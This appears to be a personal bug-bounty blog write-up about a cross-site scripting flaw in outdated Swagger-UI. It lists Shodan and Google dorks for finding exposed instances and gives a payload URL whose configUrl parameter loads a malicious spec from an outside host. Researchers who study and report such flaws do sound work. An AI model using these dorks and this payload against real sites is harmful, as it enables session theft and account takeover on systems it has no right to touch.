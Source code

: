 ```yaml
---
title: "Unveiling Cross-Site Scripting in Swagger-ui"
date: 2023-10-30
draft: false
series: "Bug Hunting"
tags: ["bug bounty hunting", "write-up"]
---
```


---

السَّلَامُ عَلَيْكُمْ و رحمة الله وبركاته

peace be upan you !

Welcome to my first write-up, where I share the exciting tale of my discovery and reporting of a simple yet impactful XSS bug in Swagger-ui.

so, lets go on and start with a short intro about the vulnerablity!

## Swagger-UI’s XSS :

Swagger-UI, a popular tool for designing, building, and documenting APIs, provides a user-friendly interface for developers to explore and interact with API endpoints. However, like any web application, Swagger-UI is not immune to security vulnerabilities.
and The root cause is that Swagger-UI allows users to provide a URL for an API specification, such as a YAML or JSON file in outdated version of DomPurify, an XML sanitizer library for HTML, MathML, and SVG. . To view and render them, you add a query parameter. It would be possible to trigger an XSS attack by loading a malicious!!

### The Story Unfolds: The Journey Begins!!

so During my exploration of the Swagger-ui application, that I found via shodan by using specific Dorks! Here are a few dorks that you can use to search in Shodan for Swagger-UI:

```
"Swagger-UI"
"Swagger-UI title:Swagger UI"
"Swagger-UI port:80"
"Swagger-UI http.component:swagger-ui"
"Swagger-UI http.favicon.hash:-116323821"

```

also u can use Google Dorks :

```
site:example.com intitle:"Swagger UI"
inurl:"swagger-ui.html"
intitle:"index of" swagger-ui
intext:"Powered by Swagger UI"
site:github.com inurl:swagger-ui
```

so ! I stumbled upon a potential XSS vulnerability. By appending a specific parameter to the Swagger UI URL, I was able to inject and execute arbitrary JavaScript code. The steps to reproduce the bug were as follows:

- Visit the Swagger UI URL:

```
 https://127.0.0.1/swagger/index.html.
```

- Append the following to the URL:

```
?configUrl=https://tearful-earth.surge.sh/test.json.
```

- The resulting URL should be:

```
 https://127.0.0.1/swagger/index.html?configUrl=https://tearful-earth.surge.sh/test.json.
```

![image tooltip here](../../static/images/dhey.PNG)

## Impact of Cross-Site Scripting:

Cross-site scripting attacks can have severe consequences and enable attackers to achieve various malicious goals. Some of the potential impacts include:

- Cookie Theft: Attackers can exploit XSS vulnerabilities to steal users' cookies, which may contain sensitive information such as session tokens or login credentials. With this information, the attacker can impersonate the victim and gain unauthorized access to their accounts.

- Local Storage Access: XSS can be used to access and extract data stored in the victim's local storage. This could include personal information, sensitive documents, or any other data stored by the web application.

- Keyloggers: Attackers can leverage XSS to inject keylogging scripts, enabling them to capture keystrokes made by users. This can lead to the theft of sensitive information, such as passwords or credit card details.

- Phishing Attacks: XSS vulnerabilities can be exploited to display convincing phishing forms or pop-ups to users, tricking them into revealing their credentials or other sensitive information.

---

As I conclude this article, I hope that my journey of uncovering an XSS bug has ignited a spark within you. Whether you're a security professional or just starting your exploration of the web security realm, remember that every bug, no matter how small or seemingly insignificant, has the potential to make a significant impact.

###### thanks fot reading :)

## Refernce :

- https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
- https://portswigger.net/daily-swig/widespread-swagger-ui-library-vulnerability-leads-to-dom-xss-attacks
